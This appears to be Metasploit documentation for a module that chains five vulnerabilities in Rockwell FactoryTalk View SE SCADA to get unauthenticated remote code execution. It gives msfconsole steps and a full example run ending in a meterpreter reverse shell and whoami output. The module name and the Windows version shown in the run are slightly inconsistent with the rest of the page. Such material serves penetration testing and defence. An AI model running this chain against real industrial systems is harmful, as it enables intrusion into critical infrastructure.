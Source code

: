 ## Vulnerable Application
This exploit requires Rockwell FactoryTalk View SE SCADA, which is only accessible to Rockwell customers.
The module exploits a series of vulnerabilities to achieve unauthenticated remote code execution on the product.
The default configuration is exploitable by an unauthenticated attacker, and successful exploitation results in RCE as the IIS user on the Windows server.
The attack relies on the chaining of five separate vulnerabilities. The first vulnerability is an unauthenticated project copy request, the second is a directory traversal, and the third is a race condition. In order to achieve full remote code execution on all targets, two information leak vulnerabilities are also abused.
This exploit was used by the Flashback team (Pedro Ribeiro + Radek Domanski) in Pwn2Own Miami 2020 to win the EWS category.
          
## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/scada/rockwell_factorytalk_rce`
3. Do: `set rhosts [RHOST]`
4. Do: `set lhost [LHOST]`
5. Do: `set srvhost [LHOST]`
6. Do: `run`
7. You should get a shell as the IIS user.

### Scenarios

This exploit was only tested on version 11.00.00.230. According to a Google search, it should work for all versions going back as far as 2008.

### Example run (Rockwell FactoryTalk View SE SCADA version 11.00.00.230 on Windows Server 2012 R2 x64)

```
msf > use exploit/windows/scada/rockwell
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/scada/rockwell) > set rhost 192.168.70.128
rhost => 192.168.70.128
msf exploit(windows/scada/rockwell) > set lhost 192.168.70.1
lhost => 192.168.70.1
msf exploit(windows/scada/rockwell) > set srvhost 192.168.70.1
srvhost => 192.168.70.1
msf exploit(windows/scada/rockwell) > check

[*] 192.168.70.128:80 - Detected version 11.00.00.230
[*] 192.168.70.128:80 - The target appears to be vulnerable.
msf exploit(windows/scada/rockwell) > run

[*] Started reverse TCP handler on 192.168.70.1:4444
[*] 192.168.70.128:80 - Listing projects on the server
[*] 192.168.70.128:80 - Received list of projects from the server
[*] 192.168.70.128:80 - Found project path: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\FTViewDemo_HMI
[+] 192.168.70.128:80 - Got a path to drop our shell: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\
[*] 192.168.70.128:80 - Starting up our web service on http://192.168.70.1:8080 ...
[*] Using URL: http://192.168.70.1:8080/RSViewSE/
[*] 192.168.70.128:80 - Starting racer thread, let's win this race condition!
[*] 192.168.70.128:80 - Initiating project copy request...
[+] 192.168.70.128:80 - Target connected, sending file path with dir traversal
[+] 192.168.70.128:80 - Target connected, sending payload
[+] 192.168.70.128:80 - We've won the race condition, shell incoming!
[*] Sending stage (175174 bytes) to 192.168.70.128
[*] Meterpreter session 1 opened (192.168.70.1:4444 -> 192.168.70.128:49894) at 2020-10-12 14:27:48 +0700
[*] Server stopped.

meterpreter > shell
Process 12008 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.449]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\SysWOW64\inetsrv>whoami
whoami
iis apppool\defaultapppool

C:\WINDOWS\SysWOW64\inetsrv>
```
